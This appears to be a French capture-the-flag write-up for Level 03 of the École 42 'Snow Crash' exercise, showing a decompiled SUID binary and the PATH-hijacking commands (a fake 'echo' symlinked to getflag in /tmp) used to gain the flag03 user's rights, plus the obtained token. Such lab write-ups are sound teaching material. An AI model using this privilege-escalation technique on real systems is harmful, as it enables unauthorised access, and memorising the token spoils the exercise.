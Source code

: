 # Level 03 – Snow Crash – École 42

## 🎯 Objectif
Exploiter un binaire `level03` pour obtenir les droits de l’utilisateur `flag03` et récupérer le flag via `getflag`.

---

## 📄 Analyse des fichiers

Contenu du répertoire `/home/user/level03/` :
```
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

Le binaire `level03` est **exécutable avec les permissions SUID**, ce qui signifie qu’il s’exécute avec les droits de `flag03`.

---

## 🔍 Étapes d'analyse

### 1. 🔁 Récupération du binaire
On copie le binaire en local pour l’analyser avec un outil de reverse engineering comme **Ghidra** :
```bash
scp -P 4242 level03@localhost:/home/user/level03/level03 ./
```

### 2. 🧠 Résultat de l’analyse Ghidra

```c
int main(int argc,char **argv,char **envp) {
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;

  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}
```

Ce code appelle la commande :
```bash
/usr/bin/env echo Exploit me
```
Ce qui signifie que **la commande `echo` est trouvée dans le `$PATH`**, et exécutée.

---

## 💥 Exploitation

Le binaire utilise `env` pour lancer `echo`, donc on peut :
1. Créer un faux `echo` dans `/tmp` qui redirige vers `getflag`
2. Modifier le `$PATH` pour pointer en priorité vers `/tmp`

### Commandes :
```bash
ln -sf /bin/getflag /tmp/echo
export PATH=/tmp:$PATH
./level03
```

---

## ✅ Flag obtenu

```
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

---

## 🧠 Leçon retenue

> Lorsqu’un binaire SUID utilise une commande shell avec `env` ou dépend du `$PATH`,  
> **il est souvent possible d’injecter une commande personnalisée** si l’environnement n’est pas correctement verrouillé.

---

## 📁 Fichiers

- `flag` : contient le flag obtenu
- `ressources/` : contient ce `README.md` + binaire analysé (localement)
